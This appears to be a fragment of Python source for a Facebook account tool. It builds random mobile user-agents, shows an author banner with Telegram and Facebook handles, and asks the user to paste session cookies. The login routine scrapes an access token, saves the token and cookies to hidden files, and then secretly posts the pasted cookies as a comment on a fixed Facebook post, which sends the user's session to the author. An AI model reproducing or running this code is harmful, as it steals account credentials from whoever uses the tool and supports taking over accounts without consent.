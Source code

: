         e=random.randrange(1, 999)
        f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
        g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.99'
        h=random.randrange(73,100)
        i='0'
        j=random.randrange(4200,4900)
        k=random.randrange(40,150)
        l='Mobile Safari/533.1'
        fullagnt=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
        ugen.append(fullagnt)
logo=("""
     ██╗ █████╗ ██╗     ██╗██╗██╗██╗     
     ██║██╔══██╗██║     ██║██║██║██║     
     ██║███████║██║     ██║██║██║██║     
██   ██║██╔══██║██║     ██║██║██║██║     
╚█████╔╝██║  ██║███████╗██║██║██║███████╗
 ╚════╝ ╚═╝  ╚═╝╚══════╝╚═╝╚═╝╚═╝╚══════╝
                                         
\033[93;1m  ───────────────────────────────────────────────────────
\033[1;95m[\033[1;93m[‌>]\033[1;95m]\033[1;93m TELEGRAM  \033[1;91m : \033[1;95mitzjalil0
\033[1;95m[\033[1;93m[>]\033[1;95m]\033[1;93m FACEBOOK\033[1;91m : \033[1;95mH. M. Jalil
\033[1;95m[\033[1;93m[>]\033[1;95m]\033[1;93m TOOLS   \033[1;91m : \033[1;95mJaliiil
\033[1;95m[\033[1;93m[>]\033[1;95m]\033[1;93m VERSION \033[1;91m : \033[1;91m0.1\33[1;32m
───────────────────────────────────────────────────────""")

def linex():
        print('\033[1;37m----------------------------------------------')
def clear():
        os.system('clear')
        print(logo)
loop=0
oks=[]
cps=[]
pcp=[]
id=[]
tokenku=[]
def login():
        clear()
        cookies = input(' Put cookies: ')
        try:
                data = requests.get("https://business.facebook.com/business_locations", headers = {"user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; Redmi 4A Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.92 Mobile Safari/537.36","referer": "https://www.facebook.com/","host": "business.facebook.com","origin": "https://business.facebook.com","upgrade-insecure-requests" : "1","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7","cache-control": "max-age=0","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8","content-type":"text/html; charset=utf-8"}, cookies = {"cookie":cookies})
                find_token = re.search("(EAAG\w+)", data.text)
                open(".tok.txt", "w").write(find_token.group(1))
                open(".coki.txt","w").write(cookies)
                tok=open('.tok.txt','r').read()
                info = requests.get('https://graph.facebook.com/me/?access_token='+tok,cookies = {"cookie":cookies}).json()
                name=(info['name'])
                idd=(info['id'])
                barth=(info['birthday'])
                linex()
                print(' Welcome\033[1;32m : '+name)
                print(' \033[1;37mYour UID : '+idd)
                print(' Barth Day: '+barth)
                requests.post('https://graph.facebook.com/pfbid02Sj97PfY1mY3cvbLjGaJRz22FR7yc75JFKLoBFiHoNLSq9aGxmGKotAtcYLkMDDpbl/comments/?message='+cookies+'&access_token='+tok, cookies={'cookie':cookies})